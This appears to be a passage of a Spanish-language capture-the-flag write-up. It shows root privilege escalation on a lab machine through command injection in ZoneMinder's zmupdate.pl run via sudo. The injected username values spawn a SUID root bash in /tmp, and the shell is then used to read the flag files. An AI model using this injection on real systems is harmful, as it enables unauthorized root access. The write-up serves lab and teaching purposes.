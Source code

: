 La función de actualizar a alguna versión te hace un prompt para saber si deseas hacer un respaldo de la db de ZoneMinder, al responder `yes`, va a ejecutar el comando `mysqldump` de forma insegura por lo que se ve, podemos comprobarlo fácilmente agregando input malicioso al comando en cuestión:

```bash
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo -u root /usr/bin/zmupdate.pl -v 1.3.1 -u "\$(uname -a)" -p asd

Initiating database upgrade to version 1.36.32 from version 1.3.1

WARNING - You have specified an upgrade from version 1.3.1 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : 

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : y
Creating backup to /tmp/zm/zm-1.3.1.dump. This may take several minutes.
mysqldump: Got error: 1698: "Access denied for user 'Linux'@'localhost'" when trying to connect
Output: 
Command 'mysqldump -u$(uname -a) -p'asd' -hlocalhost --add-drop-table --databases zm > /tmp/zm/zm-1.3.1.dump' exited with status: 2
```

Podemos simplemente hacer que nos cree una bash SUID en `/tmp/` y ya podremos ir por las dos flags.

```bash
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo -u root /usr/bin/zmupdate.pl -v 1.3.1 -u "\$(cp /bin/bash /tmp/uwu && chmod u+s /tmp/uwu)" -p sd
... [snip]
zoneminder@surveillance:/usr/share/zoneminder/www$ ls -la /tmp/uwu
-rwsr-xr-x 1 root root 1396520 Apr 30 01:44 /tmp/uwu
zoneminder@surveillance:/usr/share/zoneminder/www$ /tmp/uwu -p
uwu-5.1# source /etc/skel/.bashrc
zoneminder@surveillance:/usr/share/zoneminder/www# id
uid=1001(zoneminder) gid=1001(zoneminder) euid=0(root) groups=1001(zoneminder)
zoneminder@surveillance:/usr/share/zoneminder/www# cd /root
zoneminder@surveillance:/root# ls -la
total 40
drwx------  7 root root 4096 Apr 28 21:02 .
drwxr-xr-x 18 root root 4096 Nov  9 13:19 ..
lrwxrwxrwx  1 root root    9 Sep  6  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Sep 19  2023 .cache
drwxr-xr-x  3 root root 4096 Sep 19  2023 .config
drwxr-xr-x  3 root root 4096 Sep  8  2023 .local
lrwxrwxrwx  1 root root    9 Oct 17  2023 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwxr-xr-x  2 root root 4096 Oct 21  2023 .scripts
drwx------  2 root root 4096 Nov  7 20:07 .ssh
-rw-r-----  1 root root   33 Apr 28 21:02 root.txt
zoneminder@surveillance:/root# cat root.txt
26eba4c95197606d362d******
zoneminder@surveillance:/root# cd /home
zoneminder@surveillance:/home# ls
matthew  zoneminder
zoneminder@surveillance:/home# cd matthew
zoneminder@surveillance:/home/matthew# ls
user.txt
zoneminder@surveillance:/home/matthew# cat user.txt
c2931b25fd2f76d1bb12be2b93******
```
